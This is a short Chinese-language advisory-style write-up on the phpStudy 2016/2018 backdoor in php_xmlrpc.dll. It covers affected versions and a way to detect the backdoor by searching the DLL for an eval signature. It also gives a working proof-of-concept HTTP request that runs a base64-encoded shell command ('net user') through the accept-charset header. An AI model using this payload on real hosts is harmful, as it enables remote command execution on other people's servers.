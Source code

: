 # phpstudy后门

![](https://s2.ax1x.com/2019/09/24/uAxE2n.jpg)

 ## 0x01 前言 

 phpstudy是一个php运行环境的集成包，用户不需要去配置运行环境，就可以使用

## 0x02 问题版本

phpStudy2016 ：php-5.2.17、php-5.4.45 

phpStudy2018 ：php-5.2.17、php-5.4.45

## 0x03 排查方法

1.问题文件为：php_xmlrpc.dll，在每个php版本目录的ext目录下面都有一个

2.用记事本打开，CTRL+F搜索eval，有```@eval(%s('%s'));    %s;@eval(%s('%s')); $V='%s';$M='%s';``字样的代表存在后门

![](https://s2.ax1x.com/2019/09/24/ukxPTe.png)

## 0x04 后门复现

poc: 【poc放出来源**圈子社区**】

```http
GET /caijue.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
accept-charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7
Accept-Encoding: gzip,deflate
Cookie: PHPSESSID=fg6b95loelkml2384i5lg7d4l3
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

```

注意点：Accept-Encoding: gzip,deflate 两种编码方式之间没有空格

​               accept-charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7 执行的命令base64加密

![](https://s2.ax1x.com/2019/09/24/uASsL6.md.png)

## 0x05 修复方式

等官网发布修复版本吧

